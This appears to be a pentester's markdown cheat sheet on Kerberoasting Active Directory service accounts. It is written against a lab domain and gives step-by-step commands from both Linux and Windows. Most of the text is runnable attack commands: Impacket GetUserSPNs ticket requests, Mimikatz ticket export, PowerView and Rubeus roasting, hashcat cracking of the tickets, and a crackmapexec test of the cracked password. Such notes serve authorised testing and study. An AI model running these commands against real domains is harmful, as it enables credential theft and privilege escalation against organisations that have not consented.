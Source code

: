 ## Overview
Lateral movement/ PrivEsc technique used in AD.
Targets [Service Principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). 
	Unique Identifiers that Kerberos uses to map a service instance to a service account. 
	Domain accounts of used to overcome network limitations. 
	Any account can request any Kerberos ticket.
Need a password or NTLM hash, shell in a domain user or a SYSTEM level access on a domain joined host.
Service accounts often added to privileged groups such as domain admins. 
Service accounts often give week/ reused passwords to simplify administration. 

### How the Attack Works 
#### Where
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.
#### With 
- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.
### Encryption types
`$krb5tgs$23$*` = RC4 Hashcat mode 13100
`$krb5tgs$17$*` = AES128 Hashcat mode 19700
`$krb5tgs$18$*` = AES256

t is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: `Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options`, then double-clicking on `Network security: Configure encryption types allowed for Kerberos` and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for `RC4_HMAC_MD5` would allow for the above downgrade example to occur in 2019.

## From Linux
#### GetUsersSPNs
##### Getting a Ticket
List Service Accounts
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS tickets
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
Requesting a Single Ticket
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
##### Saving a Ticket 
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
##### Crack the Ticket 
```shell
 hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
##### Test the Authentication 
```shell
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
##### Can list what groups the user is in with 
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/<user>
```
Group is after the CN= 
## From Windows 
### Semi Manual Methods
Using [setspn](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)>)binary
#### Enumerate SPNs 
```cmd
setspn.exe -Q */*
```
#### Target a Single User 
```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

**Notes**
	- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
	- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
	- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
	- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
	- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
#### Retrieving all tickets
```powershell
 setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

```
#### Extracting Tickets with Mimikatz
```cmd
base64 /out:true

kerberos::list /export 
```
Without the base64 output, you can transfer the file across any other way.
#### Prepare for cracking 
```shell
echo "<base64 blob>" |  tr -d \\n 
```
#### Place the output into a File 
```shell
 cat encoded_file | base64 -d > sqldev.kirbi
```
#### Extract the Kerberos Ticket
```shell
python2.7 kirbi2john.py sqldev.kirbi
```
#### Modify the file for Hashcat 
```shell
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
#### Crack the hash 
```shell
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

### Automated Method 
#### PowerView 
```powershell
Import-Module .\PowerView.ps1
 
Get-DomainUser * -spn | select samaccountname
```
##### Target a specific user 
```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```
##### Export All tickets to a CSV File 
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
##### Crack the hash 
```shell
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

#### Rubeus
##### Gather stats
```powershell
.\Rubeus.exe kerberoast /stats
```
##### Request Tickets 
`Admincount=1` Likely high value targets
`nowrap` means it can easily be copied.
```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
Or
```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

#### Request a RC4 ticket if another form of encryption is used. 
use the `/tgtdeleg` flag
This will not work against Server 2019 + .
